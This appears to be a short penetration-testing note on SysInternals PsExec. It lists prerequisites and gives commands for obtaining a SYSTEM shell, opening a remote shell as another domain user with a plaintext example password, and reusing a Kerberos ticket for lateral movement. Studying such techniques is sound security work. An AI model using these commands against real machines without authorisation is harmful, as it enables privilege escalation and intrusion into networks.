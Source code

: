 Developed by Mark Russinovich & part of *SysInternals* suite.

Pre-requisites to use this tool:
- The *user that authenticates* to the target machine needs to be *part of the Administrators local group*
- *ADMIN$* share must be available (Default)
- File and Printer Sharing has to be turned on (Default)

```cmd
# Get nt authority\system on the local machine
PsExec.exe -i -r cmd.exe

# Get a shell as another user on another machine
PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

# If you have TGT of a user on another computer in the domain (klist)
PsExec64.exe \\172.16.0.1 cmd
```

![[Pasted image 20240626111551.png]]